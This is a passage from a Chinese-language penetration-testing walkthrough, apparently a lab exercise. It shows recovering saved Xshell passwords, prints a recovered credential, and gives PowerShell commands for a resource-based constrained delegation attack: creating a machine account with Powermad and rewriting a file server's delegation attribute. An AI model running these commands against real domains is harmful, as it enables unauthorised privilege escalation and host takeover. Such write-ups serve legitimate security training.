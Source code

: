 而后运行脚本即可获取密码。

不过发现一个更方便的工具，[https://github.com/JDArmy/SharpXDecrypt](https://github.com/JDArmy/SharpXDecrypt)

[![](assets/1706846898-4d6565ec0096e458d3e60327eb82fb97.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214118-69908bfe-c03e-1.png)

```bash
zhangxin admin4qwY38cc
```

## 利用 Acount Operators 组用户拿下主机

参考[https://xz.aliyun.com/t/11555?time\_\_1311=mqmx0DBD2Gqiw40vofDy7D9m6GOCDcGiG7oD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F50470#toc-18](https://xz.aliyun.com/t/11555?time__1311=mqmx0DBD2Gqiw40vofDy7D9m6GOCDcGiG7oD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F50470#toc-18)

使用`zhangxin`登录主机后打开`Powershell`，执行如下命令：

1、导入 Ps 脚本，创建机器用户`test3`

```bash
Set-ExecutionPolicy Bypass -Scope Process
import-module .\Powermad.ps1
New-MachineAccount -MachineAccount test3 -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force)
```

2、查询机器用户 SID 值

```bash
Get-NetComputer test3 -Properties objectsid
```

3、修改`FileServer`的修改`msds-allowedtoactonbehalfofotheridentity`的值

```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3535393121-624993632-895678587-1116)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer FILESERVER| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```
